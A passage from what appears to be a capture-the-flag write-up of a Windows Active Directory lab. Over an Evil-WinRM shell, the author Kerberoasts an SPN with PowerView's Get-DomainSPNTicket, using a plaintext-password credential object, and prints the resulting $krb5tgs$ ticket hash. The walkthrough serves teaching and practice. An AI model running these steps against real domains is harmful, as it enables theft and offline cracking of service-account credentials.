     serviceprincipalname
    --------------------
    {object.local/maria.object.local:1337, nonexistent/0XDF}



To actually Kerberoast, I'll need to use an SPN with a [valid
format](https://docs.microsoft.com/en-us/windows/win32/ad/name-formats-for-unique-spns)
(unlike `nonexistent/0xDF`), so I'll use that one going forward.

`PowerView` has `Get-DomainSPNTicket` to Kerberoast, but it actually
requires a credential object (even though I am logged in as smith):



    *Evil-WinRM* PS C:\programdata> Get-DomainSPNTicket -SPN "MSSQLSvc/object.local:1433"
    Warning: [Get-DomainSPNTicket] Error requesting ticket for SPN 'MSSQLSvc/object.local:1433' from user 'UNKNOWN' : Exception calling ".ctor" with "1" argument(s): "The NetworkCredentials provided were unable to c
    reate a Kerberos credential, see inner exception for details."



The error message is about the credentials being invalid. I'll create a
credential object:



    *Evil-WinRM* PS C:\programdata> $pass = ConvertTo-SecureString '0xdf0xdf!' -AsPlainText -Force 
    *Evil-WinRM* PS C:\programdata> $cred = New-Object System.Management.Automation.PSCredential('object.local\smith', $pass)
    *Evil-WinRM* PS C:\programdata> Get-DomainSPNTicket -SPN "MSSQLSvc/object.local:1433" -Credential $Cred
    Warning: [Invoke-UserImpersonation] powershell.exe is not currently in a single-threaded apartment state, token impersonation may not work.
    Warning: [Invoke-UserImpersonation] Executing LogonUser() with user: object.local\smith

    SamAccountName       : UNKNOWN
    DistinguishedName    : UNKNOWN
    ServicePrincipalName : MSSQLSvc/object.local:1433
    TicketByteHexStream  :
    Hash                 : $krb5tgs$23$*UNKNOWN$UNKNOWN$MSSQLSvc/object.local:1433*$DAECA7C0ACC55F14934E5E8A382F7AD6$FB41B91C34D8B1139FD30A93B7C0534D7767606C940A162D6A08BD7A84C604FC6757E2EFB5CCEAC9B6B87052440E82F0A111663EE2E9153746E5C13296E39D2788BE41F4
    81F2F2594F3D90011C2BDEFFC704613ACA9B3684A9F96B352E6DD0B0B0009C294DA4E8203AA43C0221F3263115899E7B77989CEF394E9402AA96BF768D515210FCEA3D4FFA7134D8F3B2D0C867C2C63B20164C01D78A607B5249A79CAAA334AF80BD5B0D21DA948440BF0E0BB68E4AE791
    8DDAF8C860AC86EA7C21E95F29ACB53397C9F5F24A223ACEE9DCE22E255CEF0D7CB67E0F421A50D1F204ACC038D85D15716B33F0EB2B23E7A039ECAA67F4EA9327860970AD417406941EB771DB2B564096336524650D6C0D6EB1CA6BF108C339DDB9FA38DB0587F7EFBAEE98A3FE3449DB
    4DA81E59224EA0467B4DC2F2576846DDEF787E3D7BA1C213D3248B7D5D5227E00E8CA6B480227CD69DDFD7ACC05FD2F907DA6B5BABF60D630BA12679323E02E541FF81B2522A8536BE1F534640AF12C1EADE7026859C82366915C64D45BB855432BD7E72EC1AA53B91D7A6D24E609694C2
    5EA1D37AA66E5E92BE8BF9F6D1DC5E728E70F2295CDBBB2AA7651F2C2615D0ED861D8763F86F9FD5A5F5FB814F0914BC5A2185FD42A753905E28ABDA1DBD891F006C4217D412C1ACBF524B752D395C2055B6814526DF022A600A949779A98D61F80B774425F5D3D28D07F00863D71E5495
    6F68353AA2102681E6931AF8CC09F18E20F3DEBABEE639F578850D0B6D9BD4FCE3CD0DA084AAA4A1805C0E4F012FEB64BB5AB86C748FAD3DDB2ED466C4FCB075C24C2C0B56A728BB65ADBE0F2013B45C79D9C515E3F418B7B7DBCE8B34AF370427670AB12EF1A6B67CFF93B07FD21B9A61
    3D0BA3E034ACA27D2AB139F648A8AA1DAA3F3FD66EA26021855B55ADB32273B3C7D241BAFBE4E12A5F30AF5AB2EF8C4A141A41D27D567C9AFE0A1D2DB17E0BA357E13064D94E077F849D6E66ADD66F4015BE57C9FBF99E79C68ED18DC1F5916044F7ECF984F8397CF65C69776D8E432F4F
    498B323AF1963081EE28C561BBF305D6FA9593813D3A9EFC24671C9540DE1CB7006FBB36847A987EFBDD754517BEE81D8322DC5F2C529C610591D1DE053D72F79A29506725C90C9369FB285A8C2D30090A403C6906FE0C61F3E31C397A3B03768B1061C3B7E69CFDA329F4CB3EA8286A66
    1EC9CFF04C29F9BBC311AC53776C265C9DFEEDB85C4ECD5DC0DDEE64C87E9045A7632A792861B687F6358E138D11676BBFD2783D644B24837659B6F96F93AF529AFC43C32943583E4593B9BEA76B6778134C55B1EB3101CE390F3E9A494BDC927BA5FF2EF20720012FCF4270A8B1BFFA2A
    1012D7C4CACB77AE9B8DE19C8671CB09DB0F15FA008658D9669553F3C5AB3C303694D23A0F409F72DF95336F9ED8898A66289FC15AAF0B9DF0432D69FAA156BF54BBEF237DFCF0139850C5C8896C65A6DA6A4A9712A6D21F2A883EF6F25D460E